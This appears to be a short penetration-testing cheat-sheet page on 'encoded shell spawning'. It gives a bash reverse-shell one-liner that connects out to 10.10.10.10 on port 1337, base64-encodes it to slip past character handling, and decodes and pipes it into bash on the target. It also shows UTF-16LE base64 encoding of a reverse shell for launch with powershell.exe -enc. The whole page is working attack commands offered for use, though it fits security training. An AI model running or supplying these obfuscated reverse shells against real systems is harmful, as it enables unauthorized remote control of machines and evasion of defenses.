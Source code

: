 # Encoded Shell Spawning

Sometimes using some [[TTY-Spawning]] tool is not enough either how characters are handled at any point client-side to server-side require encoding to be decoded back to executable form. The only assumption made is the the attacker machine is some Linux Distribution with default binaries and a encoding binary installed.

## Base64

Covert to base64 with 0 column wrapping to prevent multi-line base64 string
```bash
# Create payload
echo "/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/1337 <&1'" | base64 -w0
# -w0 means wrap 0 columns 
```

Decode Payload on target machine:

Linux
```bash
echo "$base64EncodedString" | base64 -d | /bin/bash
```

For Windows convert a file contain your reverse shell
```bash
iconv -f ASCII -t UTF-16LE $reverseshell.txt | base64 | tr -d "\n"
```

```powershell
powershell.exe -enc outputFromTheCommandAbove
```

## References

